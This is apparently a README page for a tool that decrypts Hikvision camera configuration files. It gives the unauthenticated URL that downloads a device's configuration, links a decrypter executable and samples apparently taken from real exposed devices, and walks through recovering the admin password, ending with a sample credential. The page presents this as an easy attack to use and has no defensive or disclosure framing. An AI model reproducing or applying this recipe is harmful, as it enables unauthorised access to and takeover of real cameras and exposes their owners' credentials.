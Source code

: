 # Hikvision-BinConfigurationFiles-decrypter

- [About Link](https://about.sentrylab.cn/help/Hikvision-BinConfigurationFiles-decrypter/)

<h4><li>下载账号密码配置文件 <code>http://{ip.addr:ip.port}/System/configurationFile?auth=YWRtaW46MTEK</code></li></h4>

```bash
➜  file configurationFile
configurationFile: PGP Secret Key -
```

|Desc | Link |
| :----: | :----: |
---- | --- 
Download Hikvision exec |  [<i class="fa fa-link"></i> hikvision-decrypter.exe](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth/hikvision-decrypter.exe) and here is: [<i class="fa fa-github"></i> Repos](https://github.com/WormChickenWizard/hikvision-decrypter)
Download configurationFile Sample | [<i class="fa fa-link"></i> configurationFile](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth/configurationFile-fofa)
Download configurationFile decry-Sample	| [<i class="fa fa-link"></i> configurationFile-decry](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Hikvision%20Unauth/DE-configurationFile-fofa)

##### # Usage:
Open hikvision-decrypter.exe on Windows platform

`Open Configuration File -> Encrypted -> Decrypt Data(Decrypting AES...) -> (Successfully decrypted data) -> Save Configuration File`

##### # Find pass in decrypted data

Open decrypted data with 010 Editor then find admin string 

**Boom! Easy (admin:asdf1234):**

![](../../assets/Hikvision-pass.png)
